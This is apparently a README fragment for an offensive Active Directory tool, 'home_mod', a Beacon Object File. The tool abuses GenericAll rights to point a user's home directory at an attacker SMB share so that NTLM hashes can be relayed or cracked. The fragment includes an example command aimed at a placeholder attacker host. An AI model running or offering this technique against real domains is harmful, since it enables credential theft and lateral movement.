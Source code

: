 *Home Directory* path modification via LDAP - BOF (*x64 only*)

**Description**: leverage existing 'GenericAll' AD rights over an object (ie:) user
             to set their profile to an attacker smb server (ie:) ntlmrelayx to dump hashes, 
             relay, or crack.

**Usage**: home_mod \<username\> \<drive letter\> \<attacker share\>

**Example**: home_mod jblogg N \\\\attackerip\\bogus_share
